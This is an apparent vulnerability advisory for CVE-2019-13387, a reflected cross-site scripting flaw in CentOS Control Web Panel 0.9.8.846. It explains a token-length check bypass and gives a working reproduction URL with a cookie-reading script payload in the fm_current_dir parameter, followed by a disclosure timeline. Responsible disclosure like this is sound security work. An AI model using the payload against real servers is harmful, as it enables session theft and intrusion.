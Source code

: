# Information

```
Exploit Title       : CWP (CentOS Control Web Panel) Reflected Cross Site Scripting
Date                : 7 July 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.846
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-13387
```
<br>

# Description

CWP Version 0.9.8.846 have implemented token in every URL to prevent cross site scripting.
But the aplication checks only length of the token, this allows attacker to follow the token format to bypass XSS protection
Refer to  : CVE-2018-18324

<br>

#  Steps to Reproduce

<b>Example</b> : <br><br>https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxx/user1/fileManager2.php?frame=3&fm_current_dir=</script><script>alert(document.cookie)</script>

<b>Parameter Name </b>: fm_current_dir
<br>
<b>Attack Pattern for XSS</b> : </script><script>alert(document.cookie)</script>

<br>

<kbd>![](resources/CVE-2019-13387.md/ezgi.gif)</kbd>

<br>

#  Timeline

```
2019-07-07: Discovered the bug
2019-07-07: Reported to vendor
2019-07-07: Vender accepted the vulnerability
2019-07-15: The vulnerability has been fixed
2019-07-23: Published
```
